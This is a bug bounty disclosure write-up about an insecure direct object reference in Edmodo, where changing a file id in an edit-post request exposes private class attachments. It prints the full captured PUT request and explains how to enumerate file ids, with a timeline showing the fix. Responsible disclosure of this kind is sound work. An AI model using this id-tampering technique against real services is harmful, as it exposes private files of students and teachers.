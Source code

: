 ```yaml
---
tags: bugbounty
category: BugBounty
---
```


# What is Edmodo ?

It's a platform to connect teachers-students-parents. Kind of social networking for learning.

# Functionality

* Edmodo is having a functionality called classes.
* A teacher can create a class and invite students to join the class.
* Teachers generally upload their notes/assignments/files etc inside a class.
* Classes are private & only those students who are having an invitation can access the content posted inside that class.
* With this bug, I was able to access the private attachments of any class without being a member of it.

# Proof Of Concept

1. From a teacher’s edmodo account, go to your class and capture the request for editing a post (the post should have an attachment).
2. Request looks like:

    ```
    PUT /messages/693960217?access_token=xyz&request_origin=react-web-app HTTP/1.1
    Host: api.edmodo.com
    Connection: close
    Content-Length: 180
    Accept: application/json
    Origin: https://new.edmodo.com
    User-Agent: Mozilla/5.0
    Content-Type: application/json
    Referer: https://new.edmodo.com/groups/my-class-1234
    Accept-Language: en-US,en;q=0.9
    {“content”:{“id”:693960217,”text”:”Final notes”,”attachments”:{“files”:[{“id”:910143311}],”links”:[],”embeds”:[]}},”id”:693960217,”url”:”https://api.edmodo.com/messages/693960217"}

    ```
3. It is taking **“files”:[{“id”:910143311}]** parameter and attaching the file with the given id in your post. An attacker can change that id to any number and that file will be linked to his post (file ids can be enumerated by incrementing/decrementing the captured value). 

## Video POC

[![Edmodo IDOR POC](https://img.youtube.com/vi/h55s-_ZBADE/0.jpg)](https://youtu.be/h55s-_ZBADE)


## Timeline

* Mar. 17, 2019 — Initial Report
* Mar. 18, 2019 — Report Triaged
* Mar. 25, 2019 — Bug Fixed and Swag Awarded